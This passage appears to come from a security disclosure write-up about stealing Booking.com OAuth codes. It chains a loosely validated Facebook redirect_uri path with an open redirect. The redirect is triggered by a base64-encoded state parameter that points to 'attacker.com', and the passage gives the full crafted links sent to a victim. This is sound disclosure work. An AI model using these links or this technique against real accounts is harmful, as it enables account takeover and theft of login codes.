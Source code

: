 In step 1, I changed the redirect\_uri to a different path and sent this link to a victim:

_https://www.facebook.com/v3.0/dialog/oauth?redirect\_uri=https://account.booking.com/any/path/an/attacker/wants\&scope=email\&client\_id=210068525731476\&state=\[large\_object]\&response\_type=code_.

Note that we can’t change the origin (**account.booking.com**) because Facebook will throw an error - it doesn’t match the predefined origin provided by Booking.com.

When Booking.com registered to Facebook, they provided a predefined origin for the redirect\_uri, but didn’t provide an exact path. Therefore Facebook can validate only the origin before the redirection occurs.

Step 4: This link will redirect the victim to:

_https://account.booking.com/any/path/an/attacker/wants?code=\[secret\_code]?state=\[large\_object]_

‍

**We can send the code to any path we want**, so now we look for a way to send the code to another origin/domain that we control.

**Security gap 2 - open redirection**

At this point, I needed a path in booking.com that would redirect the victim to my controlled domain. That’s the definition of an open redirection vulnerability.

I start exploring features in Booking.com, and I find an interesting thing in “My Dashboard”:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd260f56c1f132fcab55e8_10.png" alt=""><figcaption></figcaption></figure>

Clicking on “add a display name”, points to the following url:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=**eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9**_

That URL automatically redirects the user to: _https://account.booking.com/mysettings/personal_. Can you guess how?

I immediately notice that the _**state**_ variable contains a base64 json string: **eyJteXNldHRpbmdzX3BhdGgiOiIvbXlzZXR0aW5ncy9wZXJzb25hbCIsImFpZCI6IjEyMyJ9**.

Let’s decode it:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd283a9443136bc24bf870_11.png" alt=""><figcaption></figcaption></figure>

Seems like Booking uses the mysettings\_path to determine how to redirect the user.

Let’s encode the following Json:

<figure><img src="https://cdn.prod.website-files.com/6334717ca56db62653270dc5/63fd2863288ad80ffe966de7_12.png" alt=""><figcaption></figcaption></figure>

We got eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ

We replace the state in the original link, and send the victim the new link:

_https://account.booking.com/oauth2/authorize?aid=123;client\_id=d1cDdLj40ACItEtxJLTo;redirect\_uri=https://account.booking.com/settings/oauth\_callback;response\_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ_
